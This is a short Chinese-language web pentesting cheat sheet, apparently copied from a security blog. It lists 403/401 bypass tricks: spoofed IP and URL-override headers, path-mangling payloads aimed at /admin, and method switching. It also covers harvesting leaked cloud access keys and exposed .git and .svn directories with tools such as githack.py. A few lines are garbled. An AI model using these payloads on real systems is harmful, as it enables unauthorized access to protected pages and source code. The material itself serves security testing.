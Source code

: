 TRACE

#### 绕过 403 和 401

1.  ```plain
    1. 通过添加请求头：X-Originating-IP，X-Remote-IP，X-client-IP，X-Forwarded等。
         有些公司会为那些能够访问敏感数据的人将IP列入白名单。这些报头将IP地址作为一个值，如果提供的IP与它们的白名单中的IP相匹配，您就可以访问资源。
    2. 使用unicode字符：尝试插入unicode字符以绕过防御。例如，尝试% = ca、% = sa和许多其他 (检查这里或这里)。因此，如果/cadmin被阻止，请尝试访问%dmin。
    3. 如果GET /admin返回403 Forbidden，尝试GET /accessible (任何可访问端点)并添加以下任何HTTP头:
       X-Original-URL : /admin
       X-override-URL : /admin
       X-Rewrite-URL : /admin
    4. 尝试不同的有效负载如果GET /admin返回403 Forbidden，尝试访问:
       /accessible/..;/admin
       /.;/admin
       /admin;/
       /admin/-
       /./admin/./
       /admin?param
       /%2e/admin
       /admin#
    5. 转换请求方法：将方法从GET改为POST，看看是否得到了一些东西。
    6. 访问真实IP：通过网站的IP访问该网站以获取被禁止的内容。
    7. Fuzzing：通过扫描被禁止内容的下一级目录或文件。
    ```
    

## 信息泄露

**AK/SK 泄露**

```plain
AccessKeyId
SecretAccessKey
```

#### git 源码泄露

利用工具 githack.py 利用工具将源码下载下来，**python githack.py [http://ip/.git/](http://ip/.git/)** 下载下来

```plain
git log  #查看历史配置
git diff   5341311234656321.321 #查看配置信息
```

#### svn 信息泄露

**.svn/entries** [https://github.com/admintony/svnExploit](https://github.com/admintony/svnExploit)

[![](assets/1711959009-0c843ce26f570943a6f012f8a7b8233b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240327085429-91132be8-ebd4-1.png)
